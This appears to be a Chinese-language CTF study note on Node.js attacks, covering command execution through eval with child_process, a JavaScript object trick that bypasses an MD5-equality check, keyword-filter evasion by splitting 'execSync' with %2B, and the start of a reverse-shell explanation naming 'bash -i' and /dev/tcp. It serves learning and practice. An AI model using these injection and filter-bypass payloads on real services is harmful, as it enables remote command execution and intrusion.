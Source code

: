 #  nodejs

## 初步-命令执行

- node.js在eval执行命令时，需要先加载模块

```javascript
eval("require("child_process").execSync('ls')")
```

## 绕过md5可以用对象

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1671779600710-1ba90b3f-b445-49bd-a980-4da978f3b59a.png#averageHue=%23fefefe&clientId=u11193094-218b-4&from=paste&height=101&id=u3a9a3517&originHeight=223&originWidth=1283&originalType=binary&ratio=1&rotation=0&showTitle=false&size=31408&status=done&style=none&taskId=ua4650770-27ad-425a-b79d-56069ce2111&title=&width=583.1818055416929)

- 这里要求md5后的值相等，在js中，数组+字符串返回的是字符串
- 而对象+字符串，返回的是`[object Object]flag{xxx}`
- get传递数组的方式和php相同

```javascript
a={'x':'1'}
b={'x':'2'}
console.log(a + "flag{xxx}")
console.log(b + "flag{xxx}")

#[object Object]flag{xxx}
#[object Object]flag{xxx}
```

## 字符串拼接

- %2B是 ＋ 

```javascript
require("child_process")['exe'%2B'cSync']('ls')
```

## 反弹shell详解

[https://xz.aliyun.com/t/2549](https://xz.aliyun.com/t/2549)

### 命令参数的解释

- `**bash -i**`创建一个bash环境
- `**/dev/tcp/ip/port**`实现监听端口和主机的通信

### 交互重定向

- 为了实现交互，我们需要把受害者交互式shell的输出重定向到攻击机上

**最开始：**<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1672642462750-d8123258-288c-481a-bbc4-ad01bbd93f42.png#averageHue=%23ededed&clientId=u301ce103-3ac6-4&from=paste&height=288&id=u6e8a1688&originHeight=633&originWidth=1435&originalType=binary&ratio=1&rotation=0&showTitle=false&size=120912&status=done&style=none&taskId=u53f5d349-5098-4459-a4cc-d406d5899c7&title=&width=652.272713135097)
